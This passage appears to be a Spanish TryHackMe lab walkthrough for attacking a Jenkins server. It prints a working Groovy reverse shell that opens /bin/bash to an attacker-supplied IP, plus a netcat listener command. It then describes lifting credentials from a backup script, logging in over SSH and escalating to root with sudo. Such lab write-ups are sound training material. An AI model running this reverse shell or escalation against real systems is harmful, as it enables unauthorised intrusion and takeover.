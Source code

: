 Esta consola acepta código Groovy, un lenguaje de programación para la JVM. Mediante la misma establecemos una reverse shell, lo haremos haciendo uso del siguiente script que nos provee THM:

```java
String host="attacking machine IP here";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Pegamos el script en la consola (no olvidarse de cambiar el valor del host por la IP de la attack box). En una nueva terminal levantamos un listener netcat mediante el comando `nc -nvlp 6996`.

Con el script de la reverse shell y el listener listos procedemos a ejecutar. Deberíamos ver la conexión en la terminal atacante, podemos probarla mandando comandos básicos como `whoami`. Una conexión exitosa se ve mas o menos así:

```bash
root@AttackBox:~# nc -nvlp 6996
Listening on [0.0.0.0] (family 0, port 6996)
Connection from MACHINE_IP [random port] received!
```

### Obteniendo el usuario y root `tracy`

Ya con la web shell y el usuario de Jenkins podemos explorar los contenidos del servidor. Nos interesan elementos que podemos utilizar para mejorar nuestro shell y elevar nuestros privilegios.

Luego de examinar los directorios usuales, en `/opt/scripts` encontramos un script llamado `backup.sh`. Este script sirve para realizar un backup de los componentes esenciales de Jenkins y enviarlos via *scp* a `home/tracy/backups`. Analizando el script nos encontramos con las credenciales del usuario `tracy`.

El uso del comando scp es una pista de que es posible utilizar SSH en el servidor. Intentamos hacerlo mediante las credenciales obtenidas:

```bash
ssh tracy@MACHINE_IP
```

Para ver que comandos podemos utilizar con este usuario hacemos lo siguiente:

```bash
tracy@jenkins:~$ sudo -l
[sudo] password for tracy:
--- Redacted ---
User tracy may run the following commands on jenkins:
    (ALL : ALL) ALL
```

La sintaxis `(ALL : ALL) ALL` indica que somos capaces de ejecutar cualquier comando mediante `sudo`. Ya somos capaces de ser root mediante `sudo su`.

## Defensa en profundidad
